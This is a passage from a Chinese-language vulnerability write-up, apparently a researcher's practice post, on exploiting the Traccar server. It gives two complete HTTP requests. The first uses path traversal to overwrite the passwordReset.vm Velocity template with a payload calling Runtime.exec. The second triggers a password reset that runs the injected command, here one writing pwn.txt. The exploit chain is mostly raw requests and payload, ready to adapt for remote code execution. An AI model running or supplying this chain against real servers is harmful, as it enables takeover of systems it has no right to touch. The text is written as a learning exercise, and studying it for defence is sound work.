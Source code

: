 一番寻找后锁定了`.\templates\full\passwordReset.vm`作为我的目标

掏出我珍藏的velocity payload，将如下请求的cookie修改为有效cookie后发送，检查会发现passwordReset.vm被成功覆盖

```plain
POST /api/server/file/..%2ftemplates%2ffull%2fpasswordReset.vm HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: image/jpeg
Content-Length: 376
Connection: close
Cookie: JSESSIONID=Vaild_Cookie

#set($subject = "Password reset")
<!DOCTYPE html>
<html>
<body>
To reset password please click on the following link:<br>
<a href="$webUrl/reset-password?passwordReset=$token">$webUrl/reset-password?passwordReset=$token</a><br>
</body>
</html>


#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c echo aaa > pwn.txt");
```

接着将如下请求的cookie修改为有效cookie，将email修改为创建账号的email后发送

```plain
POST /api/password/reset HTTP/1.1
Host: 192.168.109.155:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.109.155:8082/settings/preferences
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 18
Origin: http://192.168.109.155:8082
Connection: close
Cookie: JSESSIONID=Vaild_Cookie

email=YOUR_Login_Email
```

检查安装目录（windows默认安装在C:\\Program Files\\Traccar下），成功生成pwn.txt

## 3.总结

新人的练手作品，如果哪里有问题还希望各位师傅多多指点，SALUTE！
